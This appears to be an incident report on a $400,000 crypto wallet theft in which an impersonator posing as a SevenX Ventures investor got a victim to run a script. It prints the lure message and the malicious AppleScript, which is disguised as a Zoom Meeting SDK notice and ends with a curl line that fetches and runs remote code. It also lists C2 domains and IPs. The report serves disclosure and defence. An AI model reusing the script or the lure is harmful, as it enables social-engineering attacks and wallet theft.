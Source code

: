 # Theft from Individual C4

Date: June 29, 2024

Amount Stolen: $400,000

Tags: 🔑

---

## Details

Contacted by Telegram account impersonating VC.  jonbit3 on telegram email jonbit3@7xvc.com:

At his request, the victim set up a call with this account via Telegram. The call didn't work. He advised the victim to run a script "get it to work" on her mac.

3 days later, the vitims wallets were drained. 



### On-chain

- 0x7554a04fe6d1cd282a20ffb6aa3eeb1ac5224bf1



## URLs

- https://x.com/ValidinLLC/status/1788134423273034033



## Message Sent by Impersonator

```
Jon Liu | SevenX Ventures

Dear _______,

Hey there! I hope you're doing well. My name is Jon, and I represent
SevenX Ventures. As an investor, I'm truly passionate about
groundbreaking cryptocurrency projects.

I wanted to personally reach out and share our excitement about the
potential partnership with The Defiant. We've been lucky to make
smart investments, with our capital exceeding hundreds of millions
of dollars across different projects. Now, we're thrilled to broaden
our impact in the ecosystem, starting from Q3 2024.

If you're available, we'd love to schedule a meeting or call to discuss
investment possibilities and how I can be of assistance to you. Just
let me know what works best for you!

Please feel free to reach out to me on Telegram or through email at
jonbit3@7xvc.com. I'm available on both and would be happy to talk
with you!

Best regards,
Jon
```


## Malicious Script

```
############################################################### #                     # # 🎦 Meeting SDK                 # #                     # # Embed the Zoom meeting and webinar experience in an app or website.     # #                     # #  The Zoom Meeting SDK lets you display the familiar Zoom meeting and webinar    # #  experience in your app or website. The Meeting SDK interface resembles the Zoom   # #  client, except that it lives inside your own app or website.        # #                     # # Enhance the users' experience              # #                                # #      Native platforms for mobile and desktop offer a default UI, which looks similar to the   # #   Zoom client, and a custom UI, which offers the ability to completely customize the   # #   user interface.                 # #                     # #   The web SDK offers a client view, which looks similar to the Zoom client, and a    # #   modular component view, which displays the Meeting SDK in components on your   # #   website.                  # #                     # # Meeting and webinar authorization             # #                      # #  Each time you use the SDK to join a meeting or webinar, generate an SDK JWT to let   # #  you securely transmit your SDK credentials to Zoom's auth servers. Start meetings on  # #  behalf of other users using a ZAK (Zoom Access Key) token.        # #                     # #      Press above ▶️ button to start meeting using ZAK(Zoom Access Key)token.   # #                     # #  The Meeting SDK is also compatible with Zoom OAuth,allowing existing Zoom users to  # #  to connect their accounts to your Meeting SDK.          # #                         # #                     # ###############################################################   #  Start meeting using ZAK(Zoom Access Key)token.  set fix_url to "https://support[.]general-meet[.]team/901036/check" set sc to do shell script "curl -L -k \"" & fix_url & "\"" run script sc
```



## C2s

support[.]general-meet[.]team hits 104.168.203[.]159 which has a bunch of similar/known URLs on it and pivots to 104.168.157[.]45 and 104.168.203[.]161 and 104.168.137[.]21 and probably a bunch of others.




## Related Incidents

- 7xvc[.]virtual-collab[.]online

- support[.]virtual-collab[.]online

- www[.]virtual-collab[.]online

- technical-support[.]virtual-collab[.]online


![](../images/2024-07-01_7xv_1.jpg)

![](../images/2024-07-01_7xv_2.jpg)

![](../images/2024-07-01_7xv_3.jpg)









